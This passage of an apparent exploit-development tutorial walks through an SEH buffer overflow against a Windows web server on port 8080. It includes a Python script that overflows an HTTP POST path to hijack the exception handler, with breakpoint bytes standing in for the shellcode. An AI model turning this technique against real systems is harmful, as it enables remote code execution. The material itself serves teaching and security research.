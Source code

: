 Putting this into the exploit gives the following:

```python
#!/bin/python
import socket

shellcode = "\xCC" * 600
jmpShellcode = "\xE9\xF3\xFC\xFF\xFF" # JMP to the beginning of our shellcode
initial = "\x41" * (790 - len(shellcode)-len(jmpShellcode))
nseh = "\xEB\xF0\x90\x90" # JMP backwards 15 bytes
seh = "\xC2\x15\x40" #004015C2 -> POP EDI, POP EBP, RETN from Application itself


buffer = "POST /" + shellcode + initial + jmpShellcode + nseh + seh + " HTTP/1.1\r\n"
buffer += "User-Agent: Wget/1.13.4\r\n"
buffer += "Host: 192.168.99.142:8080\r\n"
buffer += "Accept: */*\r\n"
buffer += "Connection: Keep-Alive\r\n"
buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
buffer += "Content-Length: 4"
buffer += "\r\n\r\n"
buffer += "licenseID=string&content=string&paramsXML=string"

handle = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
handle.connect(("192.168.82.129", 8080))
handle.send(buffer)
handle.close()
```

Sending this results in us hitting our POP POP RET (the breakpoint was set after this photo was taken, but make sure to set one there before you try sending the exploit):

[![](https://3.bp.blogspot.com/-ikXaUo6girg/VEGgxFBZ7BI/AAAAAAAAAb0/EOAsSKNBXH0/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_062.png)](https://3.bp.blogspot.com/-ikXaUo6girg/VEGgxFBZ7BI/AAAAAAAAAb0/EOAsSKNBXH0/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_062.png)

And executing these instructions lands us in the 4 byte space we are presently using for the NSEH address:

[![](https://2.bp.blogspot.com/-O-Z-mHMhJoE/VEGh9pUBkLI/AAAAAAAAAcA/fpc9ccAx4Xw/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_063.png)](https://2.bp.blogspot.com/-O-Z-mHMhJoE/VEGh9pUBkLI/AAAAAAAAAcA/fpc9ccAx4Xw/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_063.png)

As we can see in the exploit code, the solution to this is to use the sequence `\xeb\xF0\x90\x90`, aka a short jump backwards, to jump into a space where we can execute a larger jump backwards.

[![](https://2.bp.blogspot.com/-hWDi8E-arhM/VEGjQN7PkcI/AAAAAAAAAcM/SDsHec_Mkcw/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_066.png)](https://2.bp.blogspot.com/-hWDi8E-arhM/VEGjQN7PkcI/AAAAAAAAAcM/SDsHec_Mkcw/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_066.png)

Once this jump is executed, we need a bigger jump backwards to get to the start or near the start of our shellcode. The bytes `\xE9\xF3\xFC\xFF\xFF` will satisfy this requirement and perform a long jump back near the beginning of our shellcode, as can be seen in the following two screenshots:
